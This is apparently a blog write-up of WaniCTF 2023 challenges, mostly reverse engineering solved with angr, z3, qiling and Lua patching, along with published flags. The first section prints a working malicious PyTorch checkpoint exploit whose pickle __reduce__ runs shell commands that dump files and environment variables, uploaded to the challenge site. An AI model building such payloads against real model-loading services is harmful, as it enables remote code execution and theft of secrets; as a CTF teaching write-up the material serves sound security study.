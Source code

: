 ```yaml
---
author: "rand0m"
title: "WaniCTF 2023 Writeup"
date: "2023-05-05"
description: "Write up for challenges I solved (mostly rev) in WaniCTF 2023."
tags: [ "CTF", "Writeup", "reversing", "angr", "z3", "qiling", "ckpt", "wasm"]
categories: ["CTF", "Writeup", "Reversing"]
draft: false
---
```


Write up for challenges I solved (mostly rev) in WaniCTF 2023.

<!--more-->

DCDC scored 6th place out of 840 teams (which scored at least one point).
> WaniCTF is a CTF event organized by Wani Hackase, the Osaka University CTF club, aimed at beginners to intermediate level participants.


## [Misc] machine_loading (31 solved)
> 機械学習モデルを試すことができるサイトを作っています。
> まだ未完成ですが、モデルをロードする部分は先に作成しました。
> モデルの形式は、みんなよく使っている.ckptにします！  
> I'm creating a website where users can test machine learning models.
> It's not completed yet, but I've already created the part that loads a model.
> The format of the model will be .ckpt, which we all use a lot!  
> <https://machine-mis.wanictf.org>

<details>
<summary>Analysis</summary> 

- A website where we can upload a ckpt file
- Ckpt file is loaded by `torch.load` in python
- This is vulnerable to arbitrary code execution

</details>

<details>
<summary>Solution</summary>


```python
import tempfile
import requests
import torch
import os

def create_model():
    class Model:
        def __init__(self):
            pass
          
        def __reduce__(self):

            commands = ['mkdir output_dir',
                        'for f in *; do echo "cat $f;"; cat $f >> output_dir/output.txt; done',
                        'echo "\n\nenv:`env`" >> output_dir/output.txt',
                        'find . -type f -exec sh -c \'echo "{}, "`cat "{}"|base64`\' \\;>> output_dir/output.txt',
                        ]  
            commands = ';'.join(commands)
            return (os.system, (commands,))

    return Model()


with tempfile.NamedTemporaryFile() as tmp:
    filename = tmp.name + '.ckpt'
    torch.save(create_model(), filename)

def upload_file(filename, endpoint_url):
    session = requests.Session()

    # open the generated file and create a multipart-encoded file object
    with open(filename, "rb") as file:
        file_payload = {"file": (filename, file)}
        upload_response = session.post(endpoint_url, files=file_payload)

    return upload_response

res = upload_file(filename, 'https://machine-mis.wanictf.org/upload')
print(res.text)
```

</details>

Flag: `FLAG{Use_0ther_extens10n_such_as_safetensors}`

## [Reversing] theseus (136 solved)



> FLAGと同じ文字列を打ち込むと`Correct!`と表示されます。
> 
> Input the same strings as FLAG and you'll get the 'Correct!'.


[rev-theseus.zip](./rev-theseus.zip)

<details>
<summary>Analysis</summary> 


```cpp
_BOOL8 __fastcall compare(char a1, int a2) {
    char v3[40]; // [rsp+10h] [rbp-30h] BYREF
    unsigned __int64 v4; // [rsp+38h] [rbp-8h]

    v4 = __readfsqword(0x28u);
    strcpy(v3, "FLAGmlEAfh.i`,f_N)r?W^c$kx");
    return a1 == v3[a2];
}

int __cdecl main(int argc, const char **argv, const char **envp) {
    char v3; // dl
    __int64 v4; // rcx
    int v6; // [rsp+0h] [rbp-60h]
    int i; // [rsp+4h] [rbp-5Ch]
    int j; // [rsp+8h] [rbp-58h]
    int v9; // [rsp+Ch] [rbp-54h]
    char v10[56]; // [rsp+20h] [rbp-40h] BYREF
    unsigned __int64 v11; // [rsp+58h] [rbp-8h]

    v11 = __readfsqword(0x28u);
    v9 = getpagesize();
    mprotect((-v9 & compare), v9, 7);
    printf("Input flag: ");
    __isoc99_scanf("%s", v10);
    LOBYTE(v6) = 0;
    for ( i = 0; i <= 25; ++i ) {
    if ( i > 3 )
        v6 = 11 * i % 15;
    if ( i > 7 ) {
        if ( i > 15 ) {
        if ( i > 23 ) {
            v3 = *(compare + i + 57);
            v4 = i + 57;
        }
        else {
            v3 = *(compare + i + 49);
            v4 = i + 49;
        }
        *(compare + v4) = v6 + v3;
        }
        else {
        *(compare + i + 39) += v6;
        }
    }
    else {
        *(compare + i + 37) += v6;
    }
    }
    for ( j = 0; j <= 25; ++j ) {
    if ( !compare(v10[j], j) ) {
        puts("Incorrect.");
        return 1;
    }
    }
    puts("Correct!");
    return 0;
}
```


</details>

<details>
<summary>Solution</summary>



```python
import angr

file_name = '/chall'
proj = angr.Project(file_name, auto_load_libs=False)
state = None 
simgr = proj.factory.simgr(state)

target_addr = lambda s: b"Correct!" in s.posix.dumps(1)
avoid_addr = lambda s: b"Incorrect." in s.posix.dumps(1)

simgr.explore(find=target_addr, avoid=avoid_addr)
if len(simgr.found) > 0:
    solution_state = simgr.found[0]
    print(repr(solution_state.posix.dumps(0)))
    print(solution_state.posix.dumps(0).decode("utf-8", "ignore"))
else:
    print('not found')
```

Output

```python
b'FLAG{vKCsq3jl4j_Y0uMade1t}\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00'
FLAG{vKCsq3jl4j_Y0uMade1t}����������������������������������
```
</details>

`FLAG{vKCsq3jl4j_Y0uMade1t}`

## [Reversing] web_assembly (77 solved)

> ブラウザ上でC++を動かすことに成功しました！！ 正しいユーザ名とパスワードを入力するとフラグがゲットできます。
> 
> I successfully ran C++ in the browser!! Enter the correct username and password to get the flag.
> 
> https://wasm-rev.wanictf.org
> 
> ---
> 注意: 作問におけるミスにより、フラグはFlag{から始まり}で終わります。ご迷惑をおかけして申し訳ありません。
> 
> Note: This flag starts `Flag{` and ends `}`. Sorry for the inconvenience.
> 

<details>
<summary>Analysis</summary> 

    
![Screenshot 2023-05-04 at 15.46.16.png](./Screenshot_2023-05-04_at_15.46.16.png)
    
</details>


`FLAG{Y0u_C4n_3x3cut3_Cpp_0n_Br0us3r!}`

## [Reversing] Lua (69 solved)

> るあ〜
> 
> Lua~~~
> 
> ---
> 
> 配布ファイルmain.luaのubuntuにおける実行方法
> How to run main.lua on ubuntu
> ```
> $ sudo apt update
> $ sudo apt install lua5.1
> $ lua main.lua
> Input FLAG : FAKE{FAKE_FLAG}
> Incorrect
> ```


[rev-lua.zip](./rev-lua.zip)

<details>
<summary>Analysis</summary> 

There is a base64 and RC4 related routine. 
    

</details>

<details>
<summary>Solution</summary>

Modify the given Lua code to dump the contents of `bm.env` before executing the instructions. We can achieve this by adding a few lines to the `bs` function:

```lua
local function bs(bm)
    -- Rest of the function definitions here
    -- ...

    -- Add the following lines to dump the environment (bm.env) to a file
    local file = io.open(output_file_name .. ".txt", "w")
    file:write("rand0m: bm.env\n")
    pretty_print_table_to_file(bm.env, file)
    file:close()
```

</details>

`FLAG{1ua_0r_py4h0n_wh4t_d0_y0u_3ay_w4en_43ked_wh1ch_0ne_1s_be44er}`


## [Reversing] javersing (348 solved)


> jarファイルの中身を覗いてみましょう！
> 
> Let's take a look at the contents of .jar file!


[rev-javersing.zip](./rev-javersing.zip)

I didn’t solve this during the contest, but I wrote a solve script anyways.


<details>
<summary>Analysis</summary> 

```java
package defpackage;

import java.util.Scanner;

/* renamed from: javersing  reason: default package */
/* loaded from: javersing.jar:javersing.class */
public class javersing {
    public static void main(String[] strArr) {
        boolean z = true;
        Scanner scanner = new Scanner(System.in);
        System.out.println("Input password: ");
        String replace = String.format("%30s", scanner.nextLine()).replace(" ", "0");
        for (int i = 0; i < 30; i++) {
            if (replace.charAt((i * 7) % 30) != "Fcn_yDlvaGpj_Logi}eias{iaeAm_s".charAt(i)) {
                z = false;
            }
        }
        if (z) {
            System.out.println("Correct!");
        } else {
            System.out.println("Incorrect...");
        }
    }
}
```
</details>

<details>
<summary>Solution</summary>

```python
from z3 import *

# Create a solver instance
solver = Solver()

# Create variables for each character in the password
password = [Int(f'password_{i}') for i in range(30)]

# Constrain password characters to printable ASCII range (32-126)
for i in range(30):
    solver.add(password[i] >= 32, password[i] <= 126)

# Add constraints based on the logic in the Java code
secret = "Fcn_yDlvaGpj_Logi}eias{iaeAm_s"
for i in range(30):
    solver.add(password[(i * 7) % 30] == ord(secret[i]))

# Check if a solution exists and print the solution if found
if solver.check() == sat:
    model = solver.model()
    solution = ''.join([chr(model[password[i]].as_long()) for i in range(30)])
    print(f"{solution = }")
else:
    print("No solution found.")
```
</details>
    

`FLAG{Decompiling_java_is_easy}`

## [Reversing] fermat (141 solved)

> Give me a counter-example


[rev-fermat.zip](./rev-fermat.zip)

<details>
<summary>Analysis</summary> 

```cpp
int __cdecl main(int argc, const char **argv, const char **envp) {
    unsigned int v4; // [rsp+Ch] [rbp-14h] BYREF
    unsigned int v5; // [rsp+10h] [rbp-10h] BYREF
    unsigned int v6; // [rsp+14h] [rbp-Ch] BYREF
    unsigned __int64 v7; // [rsp+18h] [rbp-8h]

    v7 = __readfsqword(0x28u);
    printf("Input a> ");
    __isoc99_scanf("%u", &v4);
    printf("Input b> ");
    __isoc99_scanf("%u", &v5);
    printf("Input c> ");
    __isoc99_scanf("%u", &v6);
    printf("(a, b, c) = (%u, %u, %u)\n", v4, v5, v6);
    if ( check(v4, v5, v6) )
    {
    puts("wow :o");
    print_flag();
    }
    else
    {
    puts("Invalid value :(");
    }
    return 0;
}
```

```cpp
unsigned __int64 print_flag() {
    int i; // [rsp+Ch] [rbp-B4h]
    int v2[20]; // [rsp+10h] [rbp-B0h]
    char s[8]; // [rsp+60h] [rbp-60h] BYREF
    __int64 v4; // [rsp+68h] [rbp-58h]
    __int64 v5; // [rsp+70h] [rbp-50h]
    __int64 v6; // [rsp+78h] [rbp-48h]
    __int64 v7; // [rsp+80h] [rbp-40h]
    __int64 v8; // [rsp+88h] [rbp-38h]
    __int64 v9; // [rsp+90h] [rbp-30h]
    __int64 v10; // [rsp+98h] [rbp-28h]
    __int64 v11; // [rsp+A0h] [rbp-20h]
    int v12; // [rsp+A8h] [rbp-18h]
    unsigned __int64 v13; // [rsp+B8h] [rbp-8h]

    v13 = __readfsqword(0x28u);
    v2[0] = -142476154;
    v2[1] = -978335301;
    v2[2] = -710549857;
    v2[3] = -274600028;
    v2[4] = -273358932;
    v2[5] = -996157777;
    v2[6] = -274342487;
    v2[7] = -274407775;
    v2[8] = -542714203;
    v2[9] = -996162382;
    v2[10] = -541855825;
    v2[11] = -274348372;
    v2[12] = -709438030;
    v2[13] = -559299662;
    v2[14] = -2131562585;
    v2[15] = -2013998344;
    v2[16] = -2030644062;
    v2[17] = -727481693;
    v2[18] = -1329541640;
    *(_QWORD *)s = 0LL;
    v4 = 0LL;
    v5 = 0LL;
    v6 = 0LL;
    v7 = 0LL;
    v8 = 0LL;
    v9 = 0LL;
    v10 = 0LL;
    v11 = 0LL;
    v12 = 0;
    for ( i = 0; i <= 18; ++i ) {
        s[4 * i] = v2[i] ^ 0xC0;
        s[4 * i + 1] = BYTE1(v2[i]) ^ 0xB0;
        s[4 * i + 2] = HIWORD(v2[i]) ^ 0xC0;
        s[4 * i + 3] = HIBYTE(v2[i]) ^ 0xB0;
    }
    puts(s);
    return __readfsqword(0x28u) ^ v13;
}
```

- `print_flag` is a state dependent function (doesn’t depend on any other variables)

So, we can just call `print_flag` function and get the flag!

Our options are, 

- patch the binary
- use angr to path find
- just call the `print_flag` using qiling

Let’s use qiling just for fun!

```
> nm /content/fermat  | grep ' T '
00000000000011a9 T check
0000000000001588 T _fini
0000000000001580 T __libc_csu_fini
0000000000001510 T __libc_csu_init
0000000000001401 T main
0000000000001207 T print_flag
00000000000010c0 T _start
```
    

</details>

<details>
<summary>Solution</summary>

```python
from qiling import Qiling
from qiling.const import QL_VERBOSE

binary_path = "pathto/fermat"
# Set up the binary and root filesystem paths
rootfs_path = "pathto/rootfs/x8664_linux"

# Initialize Qiling with the binary and root filesystem
ql = Qiling([binary_path], rootfs_path)
X64BASE = int(ql.profile.get("OS64", "load_address"), 16)

def dump(ql, *args, **kw):
    ql.save(reg=False, cpu_context=True, snapshot="/tmp/snapshot.bin")
    ql.emu_stop()

ql.hook_address(dump, X64BASE + 0x1401)
ql.run()

start_of_print_flag = 0x1207
end_of_print_flag = 0x1400 

begin_point = X64BASE + start_of_print_flag
end_point = X64BASE + end_of_print_flag
ql.run(begin=begin_point, end=end_point)
```

Output 

```
[=] 	mmap(addr = 0x7fffb81c3000, length = 0x3ae0, prot = 0x3, flags = 0x32, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c3000
[=] 	close(fd = 0x3) = 0x0
[=] 	mmap(addr = 0x0, length = 0x2000, prot = 0x3, flags = 0x22, fd = 0xffffffff, pgoffset = 0x0) = 0x7fffb81c7000
[=] 	arch_prctl(code = 0x1002, addr = 0x7fffb81c7f00) = 0x0
[=] 	mprotect(start = 0x7fffb81bd000, mlen = 0x4000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x555555557000, mlen = 0x1000, prot = 0x1) = 0x0
[=] 	mprotect(start = 0x7ffff7ffc000, mlen = 0x1000, prot = 0x1) = 0x0
--------------------------------------------------------------------------------
main()
--------------------------------------------------------------------------------
--------------------------------------------------------------------------------
print_flag
--------------------------------------------------------------------------------
[=] 	fstat(fd = 0x1, buf_ptr = 0x80000000db50) = 0x0
[=] 	brk(inp = 0x0) = 0x55555555b000
[=] 	brk(inp = 0x55555557c000) = 0x55555557c000
FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}
[=] 	write(fd = 0x1, buf = 0x55555555b260, count = 0x4b) = 0x4b
```
</details>

`FLAG{you_need_a_lot_of_time_and_effort_to_solve_reversing_208b47bd66c2cd8}`


## [Forensics] Apocalypse (113 solved)


> ファイルが切り取られてしまったみたいです。
> ※フラグ形式はFLAG{[0-9a-zA-Z_]+}です。
> 
> It looks like the file has been cut off.
> *The flag format is FLAG{[0-9a-zA-Z_]+}.


[for-Apocalypse.zip](./for-Apocalypse.zip)

I’ve used [https://fotoforensics.com](https://fotoforensics.com/analysis.php?id=c5ac6a80833988327d15c588af8b19584c502084.36410). 


`FLAG{Watch_out_4_2023_21036}`